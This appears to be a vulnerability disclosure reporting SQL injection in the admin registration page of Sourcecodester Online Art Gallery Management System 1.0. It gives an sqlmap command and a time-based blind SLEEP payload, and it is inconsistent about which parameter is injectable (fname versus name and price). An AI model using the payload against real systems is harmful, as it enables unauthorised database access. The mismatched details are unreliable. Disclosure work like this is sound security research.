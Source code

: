 # SQL Injection vulnerability was discovered in Sourcecodester Online Art Gallary Management System 1.0 (admin registration)

Affected Project: Sourcecodester Online Art Gallary Management System 1.0

Official Website: https://www.sourcecodester.com/php/14211/online-art-gallery-management-system-project-using-phpmysql.html

Version: 1.0

Related Code file: /Admin/registration.php

Injection parameter: fname


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the /Admin/ By clicking on **Registration**, we can register for admin account.

`http://192.168.12.147/Admin/registration.php`

![image](https://github.com/gurudattch/CVEs/blob/main/assets/0.png)

--- 

We will first intercept the add-item traffic using Burp Suite
![image1](https://github.com/gurudattch/CVEs/blob/main/assets/1.png)

 ---
 
Save the intercepted Registration request to a .txt file and execute sqlmap towards it. 

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/2.png)


---

parameter fname is vulnerable to sql injection

Below commands verifies the vulnerability:

`sqlmap -r sqli_test.txt -p fname`

---

![image3](https://github.com/gurudattch/CVEs/blob/main/assets/3.png)

---

```
---
Parameter: fname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
